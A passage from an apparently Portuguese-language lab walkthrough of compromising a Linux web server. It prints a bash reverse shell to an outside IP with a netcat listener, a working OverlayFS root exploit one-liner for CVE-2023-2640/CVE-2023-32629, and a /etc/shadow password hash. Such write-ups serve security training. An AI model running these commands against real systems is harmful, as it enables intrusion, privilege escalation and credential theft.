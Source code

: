 ```www-data@webserver:…/html/uploads# /usr/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.159/4444 0>&1'```

``` shell
nc -lvpn 4444 
listening on [any] 4444 ...
10.10.11.241: inverse host lookup failed: Unknown host
connect to [10.10.14.159] from (UNKNOWN) [10.10.11.241] 6608
bash: cannot set terminal process group (952): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/html/uploads$ 
```

Identifiquei a versão do servidor, sendo ela a Ubuntu 23.04.
```shell
www-data@webserver:/var/www/html/uploads$ cat /etc/os-release
cat /etc/os-release
PRETTY_NAME="Ubuntu 23.04"
NAME="Ubuntu"
VERSION_ID="23.04"
VERSION="23.04 (Lunar Lobster)"
VERSION_CODENAME=lunar
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=lunar
LOGO=ubuntu-logo
```
Com essas informação em mãos, encontrei as vulnerabilidades CVE-2023-2640 e CVE-2023-32629

É possível verificar mais informações sobre em:
https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629

Para conseguirmos acesso como root, executaremos o seguinte comando:
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

Agora iremos encontrar os usuários ativos do sistema usando ```cat /etc/passwd```, e como resultados encontramos o usuário:

```
drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash
```

Utilizando o comando ```cat /etc/shadow```, é possível encontrar a hash de da senha do drwilliams.

```
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
```
